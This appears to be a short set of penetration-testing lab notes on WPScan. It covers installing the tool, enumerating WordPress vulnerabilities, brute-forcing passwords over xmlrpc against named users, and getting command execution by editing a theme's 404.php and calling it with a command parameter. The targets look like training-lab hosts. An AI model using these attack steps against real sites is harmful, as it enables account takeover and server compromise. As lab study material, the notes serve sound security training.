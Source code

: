 [[Wordpress]]
https://github.com/wpscanteam/wpscan

https://wpscan.com/ or https://wpvulndb.com/ - register to obtain API key. it is required to scan for vulnerabilities.
#### Installation
```bash
sudo gem install wpscan
```
##### Enumerate ..
```bash
wpscan --url http://blog.inlanefreight.com --enumerate --api-token <token>
```

##### Password [[Brute Force]]
```bash
wpscan --password-attack xmlrpc -t 20 -U admin, david -P passwords.txt --url http://blog.inlanefreight.com
```

##### [[RCE]] using theme editor
1. Visit http://94.237.56.165:54912/wp-admin/theme-editor.php?file=404.php&theme=ben_theme
2. Run command http://94.237.56.165:54912/wp-content/themes/ben_theme/404.php?lol=id
